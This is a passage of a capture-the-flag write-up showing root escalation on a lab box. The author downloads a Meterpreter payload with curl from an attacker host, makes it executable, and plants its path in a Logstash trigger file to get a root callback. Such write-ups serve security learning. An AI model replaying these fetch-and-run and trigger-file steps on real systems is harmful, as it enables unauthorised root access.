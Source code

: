 Then transfered it to the box:

```
bash-4.2$ curl -o /tmp/met http://10.10.14.12/met && chmod 777 /tmp/met
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100   249  100   249    0     0   6119      0 --:--:-- --:--:-- --:--:--  6225
```

Then I created the trigger file:

```
bash-4.2$ echo "/tmp/met" > /opt/kibana/logstash_1 
```

I waited a few minutes then got a callback as root:

```
meterpreter > shell
Process 12972 created.
Channel 1 created.
cat /root/root.txt
3f5f72...
```
